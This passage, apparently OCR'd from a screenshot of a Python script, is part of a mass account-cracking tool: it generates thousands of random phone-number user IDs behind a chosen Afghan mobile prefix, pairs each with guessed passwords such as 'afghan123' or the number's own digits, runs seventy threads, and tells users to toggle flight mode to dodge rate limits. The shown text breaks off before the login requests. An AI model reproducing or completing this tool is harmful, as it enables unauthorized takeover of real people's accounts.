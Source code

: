 	print('[1] Random Pass ')

	print('[0] Exit menu')

	linex()

	Booda=input('Select Option :')

	if Booda =='1':

		Boodast()

	if Booda =='0':

		exit(' Thanks for use 👌😜 ')

		

def Boodast():

    user=[]

    os.system('clear')

    print(logo)

    print(' Code example: 9378 9376 9379 9370 \033[0;92m')

    linex()

    kode = input(' Put Code : ')

    os.system('clear')

    print(logo)

    limit = int(input(' Example : 2000,5000,3000 put limit:\n\33[1;32m----------------------------------------------\n put Limit : '))

    for nmbr in range(limit):

        nmp = ''.join(random.choice(string.digits) for _ in range(7))

        user.append(nmp)

    with ThreadPool(max_workers=70) as yaari:

        os.system('clear')

        print(logo)

        tl = str(len(user))

        print(' Total IDS : '+tl)

        print(' Choice code : '+kode)

        print('\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;37m')

        linex()

        for guru in user:

            uid = kode+guru

            pwx = [guru,'afghan123','afghan1234','afghan12345']
